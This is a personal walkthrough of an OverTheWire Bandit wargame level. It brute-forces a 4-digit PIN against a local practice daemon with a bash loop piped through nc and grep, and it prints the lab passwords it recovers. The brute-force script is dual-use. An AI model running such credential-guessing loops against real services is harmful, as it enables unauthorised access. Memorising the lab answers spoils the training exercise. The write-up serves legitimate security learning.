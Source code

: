 *Answer:*
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

# ------------------------------------------------------------------------------ #

## Level 25

*Goal:* A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

*Commands:*
- `for` loop syntax:
```bash
for var in (<number range>)
do
    #process
done
```
- `$`: represents a command I write into the cli.
- `grep -v <pattern> <file>`: It shows all lines that do **NOT** match a given pattern.
    - `-n`: prints line numbers: to find

*Steps:*
1. Test response first. 
```bash
$ echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000" | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
```
2. So, I have to write a script using a for loop that goes from 0000 to 9999. The response of the daemon will be different when given the correct pin. So, I have to write all responses into a file, and then use the `uniq -u` and `sort` (level 9).
3. However, this would require only recording responses, and I will not know the pin. Therefore, I will use `grep` to detect any line with [Wrong!] and remove it. Then, print with line number. PIN = line number - 1. HOWEVER, when you first connect using nc, there is the server's intial prompt, so it is PIN = line number - 2.
3. `mktemp -d` then `touch pinBruteForce.sh`
4. `nano pinBruteForce.sh` 
```bash
#!/bin/bash
for i in {0000..9999}
do
    echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >> possibilities.txt
done
cat possibilities.txt | nc localhost 30002 > result.txt
grep -v -n "Wrong" result.txt
```
5. Output:
```bash
2221:Correct!
2222:The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
PIN number is therefore 2219. 

